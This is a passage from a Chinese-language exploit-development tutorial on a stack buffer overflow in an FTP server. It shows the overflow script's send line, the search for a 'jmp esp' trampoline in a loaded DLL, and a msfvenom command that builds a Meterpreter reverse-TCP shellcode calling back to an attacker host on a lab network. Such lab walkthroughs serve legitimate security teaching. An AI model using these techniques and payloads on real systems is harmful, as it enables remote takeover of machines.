     sock.send(command + buffer + eip + nops)
    sock.close()
    

当我们再次执行这个溢出脚本时，对着会发现FTP服务器的`EIP指针`已经被替换成了`42424242`也就是替换为了`BBBB`的机器码格式；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712084950864-1409149237.png)

而再看堆栈中的数据，此时也已经被`90909090`就是Nop雪橇，以及我们精心构造的数据填充满了；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712084959260-1399572965.png)

这说明我们的预测与分析完全正确，此时针对该漏洞的分析工作就结束了；

#### 5.2.3 寻找JMP跳板指令

在上面环节中我们已经确定了填充物的大小，但程序每次运行其栈地址都是随机变化的，这是因为堆栈空间默认是由操作系统调度分配的每次分配都不会一致，在Windows漏洞利用过程中，由于程序的装入和卸载都是动态分配的，所以Windows进程的函数栈帧可能`产生移位`，即`ShellCode`在内存中的地址是`动态变化`的，因此需要`Exploit(漏洞利用代码)`在运行时动态定位栈中的`ShellCode`地址。

此时我们需要寻找一个跳板，能够动态的定位栈地址的位置，在这里我们使用`jmp esp`作为跳板指针，其基本思路是,使用内存中任意一个`jmp esp`地址覆盖返回地址，函数返回后被重定向去执行内存中`jmp esp`指令，而ESP寄存器指向的地址正好是我们布置好的`nop雪橇`的位置，此时EIP执行流就会顺着nop雪橇滑向我们构建好的恶意代码，从而触发我们预先布置好的ShellCode代码。

**选择利用模块:** 首先通过x64dbg调试器附加FTP程序，然后选择符号菜单，这里可以看到该服务程序加载了非常多的外部DLL库，我们可以随意选择一个动态链接库跳转过去，这里为了通用我就选择 `network.dll` 这个模块作为演示,模块的选择是随机的,只要模块内部存在 `jmp esp` 指令或者是能够跳转到nop雪橇位置的任何指令片段均可被利用。

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085008786-1722836664.png)

**搜索JMP跳板:** 接着在调试器的反汇编界面中，按下`Ctrl + F`搜索该模块中的`jmp esp`指令，因为这个指令地址是固定的，我们就将EIP指针跳转到这里，又因esp寄存器存储着当前的栈地址，所以刚好跳转到我们布置好的nop雪橇的位置上，如下图我们就选择 `625011ED` 这个代码片段。

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712085017025-509473769.png)

#### 5.2.4 组合脚本并攻击

至此针对本应用程序的漏洞挖掘与分析就分析完成了，既然所有条件都满足了接下来就是生成漏洞利用代码了，这里我们可以通过MSF提供的`msfvenom`命令快速的生成一个32位的有效攻击载荷，并将其与我们得到的内存地址进行组装，需要注意的是此处指定的`lhost`是攻击主机的IP地址，此处指定的`lport`需要开启一个与9999端口不冲突的端口，并最后生成Python格式的攻击载荷；

    ┌──(lyshark㉿kali)-[~]
    └─$ msfvenom -a x86 --platform Windows \
    > -p windows/meterpreter/reverse_tcp -b '\x00' lhost=192.168.9.135 lport=8888 -f python
    
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 381 (iteration=0)
    x86/shikata_ga_nai chosen with final size 381
    Payload size: 381 bytes
    Final size of python file: 1887 bytes
    buf =  b""
    buf += b"\xda\xd6\xb8\x8e\x0b\x73\x3d\xd9\x74\x24\xf4\x5f"
    buf += b"\x2b\xc9\xb1\x59\x31\x47\x19\x83\xc7\x04\x03\x47"
    [省略符]
    buf += b"\xe7\x41\x5c\x36\x62\xa9\xf2\x48\xa7"
    

如上所示，既然有了攻击载荷，接下来则是将生成的`ShellCode`与`Python`攻击脚本相结合，此时读者需要注意`host=192.168.9.118`指定的是被攻击主机的IP地址，此处的`command`代表的是默认发包是所遵循的发包格式，此处的`buffer`代表正常的填充物，此处的`EIP`则代表`Jmp ESP`的实际跳转地址，此处`nops`是NOP雪橇，最后通过`command + buffer + eip + nops + buf`将攻击载荷进行组装，即可写出如下所示的完整攻击代码；
